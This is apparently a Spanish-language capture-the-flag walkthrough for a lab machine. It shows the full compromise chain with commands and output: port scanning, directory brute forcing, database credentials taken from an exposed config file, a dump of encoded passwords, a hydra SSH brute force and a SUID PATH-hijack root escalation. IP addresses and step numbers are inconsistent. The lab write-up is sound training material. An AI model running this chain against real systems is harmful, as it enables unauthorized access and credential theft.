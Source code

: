 1. Escaneo de puertos abiertos 
```
nmap -p- --open --min-rate 5000 -n -Pn -vvv -sCSV 192.168.18.85 -oN scanPorts
```
Impresión
```
Discovered open port 3306/tcp on 192.168.18.94
Discovered open port 22/tcp on 192.168.18.94
Discovered open port 80/tcp on 192.168.18.94
```

2. Ataque de diccionario al URL
```
gobuster dir -t 20 -u http://192.168.18.94/ -w /usr/share/wordlist/common.txt
```
Impresión
```
/core                 (Status: 301) [Size: 313] [--> http://192.168.18.94/core/]
```

3. Descargar el archivo `databases.yml` que se encuentra dentro del directorio  `http://192.168.18.94/core/`
4. Entrar a la base de datos con el usuario encontrado en `databases.yml` con la contraseña `UcVQCMQk2STVeS6J`
```
mysql -u qdpmadmin -h 192.168.18.94 -p
```
5. Buscar usuarios y credenciales potenciales 
```
> show databases;
```
Impresión
```mysql
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
```

```
> use staff;
> show tables;
```
Impresión
```mysql
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
```

```
> select * from login;
```
impresión 
```mysql
+-----+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
```

```
> select * form user;
```
impresión
```mysql
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
```

6. Recopilar usuarios y contraseñas en archivos separados
7. Des encriptar los hashes (Con cada uno)
```
> echo "Y3FObkJXQ0J5UzJEdUpTeQ==" | base64 -d
```

8. Ataque con `hydra` al puerto 22 utilizando los usuarios y contraseñas
```
hydra -L users -P passwords ssh://192.168.160.94
```

7. Con hydra probar contraseñas y usuarios 
```
hydra -L users -P pa ssh://192.168.160.221
```
impresión 
```bash
[22][ssh] host: 192.168.18.122   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.18.122   login: dexter   password: 7ZwV4qtg42cmUXGX
```
8. Entrar por el protocolo ssh 
```
ssh travis@192.168.18.122
```
9. Buscar archivos con permisos `SUID`
```
find / -perm -4000 -user root 2>/dev/null 
```
impresión
```
/opt/get_access
/usr/bin/chfn
```

10. Ver caracteres imprimibles del archivo 
```
strings /opt/get_access
```
11. Realizar un `PathHacking` a `cat`
```
cd /tmp
touch cat
chmod +x cat
export PATH=/tmp:$PATH
```

13. Dentro del archivo `cat`
```bash
chmod u+s /bin/bash
```
14. Ejecutar el archivo `/opt/get_access`
15. Abrir una `bash` con todos los permisos
```
bash -p
```
16. Volver a configurar el `PATH`
```
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
17. Maquina resuelta 
```
cat /root/root.txt
```
Impresión 
```
ICA{Next_Generation_Self_Renewable_Genetics}
```
